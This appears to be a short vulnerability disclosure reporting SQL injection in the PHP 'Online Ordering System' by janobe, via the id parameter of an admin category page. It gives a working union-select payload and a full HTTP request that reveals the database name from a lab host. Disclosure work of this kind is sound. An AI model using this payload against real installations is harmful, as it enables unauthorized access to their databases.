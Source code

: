 # Online Ordering System By janobe has SQL injection vulnerability

Author： k0xx

vendor: https://www.sourcecodester.com/php/12978/online-ordering-system-phpmysqli.html

Vulnerability file: /ordering/admin/category/index.php?view=edit&id=

Vulnerability location: /ordering/admin/category/index.php?view=edit&id= //id is Injection point

[+]Payload: /ordering/admin/category/index.php?view=edit&id=-3%27%20union%20select%201,database(),3--+ //id is Injection point

Current database name: multistoredb

```sql
GET /ordering/admin/category/index.php?view=edit&id=-3%27%20union%20select%201,database(),3--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=0m2td1md252hlnr3nsbmc5ss99
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/168951684-0aededb5-bb1d-42ea-a6fd-4f5190ee7008.png)

![image](https://user-images.githubusercontent.com/54017627/168951714-bfed6eee-6fe2-4ac9-8c90-d6a2edaab596.png)
